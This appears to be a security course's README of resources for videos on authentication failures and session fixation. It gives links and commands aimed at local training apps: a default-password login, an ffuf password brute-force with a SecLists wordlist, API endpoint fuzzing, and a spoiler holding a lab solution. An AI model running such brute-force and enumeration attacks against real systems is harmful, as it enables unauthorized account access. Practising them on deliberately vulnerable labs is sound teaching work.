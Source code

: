 # Video 4.2

* [[OWASP] A07:2021 – Identification and Authentication Failures](https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/)

# Video 4.3

* [CWE-521: Weak Password Requirements](https://cwe.mitre.org/data/definitions/521.html)
* [GitHub: SecLists](https://github.com/danielmiessler/SecLists)

```sh
curl 'http://localhost:3000/rest/user/login' -H 'Content-Type: application/json' -d '{"email":"admin@juice-sh.op","password":"admin"}'
```

```sh
# don't want to skip 401, as we can get some brute-force prevention error message
# with 401 Unauthorized code
ffuf -u 'http://localhost:3000/rest/user/login' -H 'Content-Type: application/json' -d '{"email":"admin@juice-sh.op","password":"FUZZ"}' -fs 26 -w /usr/share/seclists/Passwords/probable-v2-top12000.txt:FUZZ
```

# Video 4.4

* [CWE-384: Session Fixation](https://cwe.mitre.org/data/definitions/384.html)
* [File: dvwa-session.sh](dvwa-session.sh)

```sh
# execute curl 2 times a second
for i in {1..10}; do dvwa-session;sleep 0.5; done
```

```sh
date -d @UNIX_TIME
```

# Video 4.5

```sh
ffuf -u http://localhost:10003FUZZ -w /usr/share/seclists/Discovery/Web-Content/api/api-endpoints.txt
```

<details>
  <summary>Spoiler: Solution for vuln-app</summary>

    curl http://localhost:10003/api/topSecret -H 'Content-Type: application/json' -d '{"apiKey":"V2VsbERvbmVSZWNvZ25pemluZ0Jhc2U2NCEh"}'
</details>
